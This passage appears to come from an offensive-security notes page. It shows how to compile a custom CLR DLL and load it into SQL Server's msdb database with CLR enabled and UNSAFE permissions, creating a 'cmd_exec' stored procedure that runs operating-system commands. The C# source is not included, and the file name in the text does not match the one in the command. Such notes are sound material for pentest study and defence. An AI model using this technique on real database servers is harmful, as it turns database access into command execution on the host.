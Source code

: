 ### Custom CLR DLL for SQL Server

We can compile the `CreateAssembly.cs` file with csc.exe:
- `csc.exe /target:library cmd_exec.cs`

Next, run these SQL Statements to load and run the custom assembly:

```
-- Select the msdb database
use msdb
-- Enable show advanced options on the server
sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable clr on the server
sp_configure 'clr enabled',1
RECONFIGURE
GO
-- Import the assembly
CREATE ASSEMBLY my_assembly
FROM 'c:\temp\cmd_exec.dll'
WITH PERMISSION_SET = UNSAFE;
-- Link the assembly to a stored procedure
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
GO
```

Now you should be able to execute OS commands via the “cmd_exec” stored procedure in the “msdb” database as shown in the example below:

<img width="540" alt="{6011A196-9EFE-4CFA-A551-FDD505DF9E59}" src="https://github.com/user-attachments/assets/be2976cc-7965-4279-a55d-c4d552e86d26" />
